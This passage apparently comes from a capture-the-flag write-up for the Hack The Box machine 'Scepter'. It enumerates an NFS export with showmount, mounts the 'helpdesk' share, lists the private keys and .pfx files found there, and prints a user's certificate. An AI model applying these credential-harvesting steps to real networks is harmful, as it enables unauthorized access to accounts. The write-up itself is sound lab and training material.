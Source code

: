 ### Enumeration of Port 2049/TCP

Therefore we moved on to enumerate port `2049/TCP` to see what `mounts` are eventually available and accessible. We found a share called `helpdesk`.

```shell
┌──(kali㉿kali)-[~]
└─$ showmount -e 10.129.248.205 
Export list for 10.129.248.205:
/helpdesk (everyone)
```

We created a folder within `/mnt`, called it like the box and mounted the share into it.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo mount -t nfs -o vers=4,nolock 10.129.248.205:/helpdesk /mnt/scepter 
[sudo] password for kali:
```

The share contained a `certificate` (`baker.crt`) and `key` (`baker.key`) of a user named `baker` and `.pfx` files for the users `clark`, `lewis` and `scott`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo ls -lah /mnt/scepter
total 25K
drwx------ 2 nobody nogroup   64 Nov  2 04:02 .
drwxr-xr-x 3 root   root    4.0K Apr 19 21:07 ..
-rwx------ 1 nobody nogroup 2.5K Nov  2 04:01 baker.crt
-rwx------ 1 nobody nogroup 2.0K Nov  2 04:01 baker.key
-rwx------ 1 nobody nogroup 3.3K Nov  2 04:01 clark.pfx
-rwx------ 1 nobody nogroup 3.3K Nov  2 04:01 lewis.pfx
-rwx------ 1 nobody nogroup 3.3K Nov  2 04:02 scott.pfx
```

We found the exact `username` of `baker` by having a look at the content of the `certificate`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ cat baker.crt 
Bag Attributes
    friendlyName: 
    localKeyID: DC 2B 20 65 C3 0D 91 40 E8 37 B5 CC 06 0F EA 66 5D 3B 7C 4E 
subject=DC=htb, DC=scepter, CN=Users, CN=d.baker, emailAddress=d.baker@scepter.htb
issuer=DC=htb, DC=scepter, CN=scepter-DC01-CA
-----BEGIN CERTIFICATE-----
MIIGTDCCBTSgAwIBAgITYgAAADLhpcORUTEJewAAAAAAMjANBgkqhkiG9w0BAQsF
ADBIMRMwEQYKCZImiZPyLGQBGRYDaHRiMRcwFQYKCZImiZPyLGQBGRYHc2NlcHRl
cjEYMBYGA1UEAxMPc2NlcHRlci1EQzAxLUNBMB4XDTI0MTEwMjAxMTM0NloXDTI1
MTEwMjAxMTM0NlowdDETMBEGCgmSJomT8ixkARkWA2h0YjEXMBUGCgmSJomT8ixk
ARkWB3NjZXB0ZXIxDjAMBgNVBAMTBVVzZXJzMRAwDgYDVQQDEwdkLmJha2VyMSIw
IAYJKoZIhvcNAQkBFhNkLmJha2VyQHNjZXB0ZXIuaHRiMIIBIjANBgkqhkiG9w0B
AQEFAAOCAQ8AMIIBCgKCAQEApYOPHHtw8CsIIS6mFkoI8CtD5I4Tu36JDSObdnYZ
kZ1eKW/Vif1rXL9LHykKhJbTGuJsEDSHKt7mYs0r49JU3HrW2ZIosuIhSq25gcql
73tnI7RoCc8n6zUZBQaiEJbbXAhcKJ1Tkarc3ZX3U9aHoKkklMJhyH01D/3xvGsM
6XbCFHby3HmnwouKph9/a7e2XPynHnYvwbU3POkJPm+P45Ko5r18VuELdHJBGOVx
9/aOxqQ9wU1Rqi4O711dWAenr8wfG0IUIEm2hmPKAfAJw+dKgpspe9TtUZlJs0M4
ZLa/xdhdySmr9snryirgSYD9KEzWx+0NsqaHfmM1aqsZEwIDAQABo4IDATCCAv0w
HQYDVR0OBBYEFDeUzFfjpMtVYxpHj4PQblDCNGNRMB8GA1UdIwQYMBaAFOuQVDjS
pmyJasttTaS6dRVgFSfjMIHKBgNVHR8EgcIwgb8wgbyggbmggbaGgbNsZGFwOi8v
L0NOPXNjZXB0ZXItREMwMS1DQSxDTj1kYzAxLENOPUNEUCxDTj1QdWJsaWMlMjBL
ZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXNj
ZXB0ZXIsREM9aHRiP2NlcnRpZmljYXRlUmV2b2NhdGlvbkxpc3Q/YmFzZT9vYmpl
Y3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCBwQYIKwYBBQUHAQEEgbQwgbEw
ga4GCCsGAQUFBzAChoGhbGRhcDovLy9DTj1zY2VwdGVyLURDMDEtQ0EsQ049QUlB
LENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZp
Z3VyYXRpb24sREM9c2NlcHRlcixEQz1odGI/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29i
```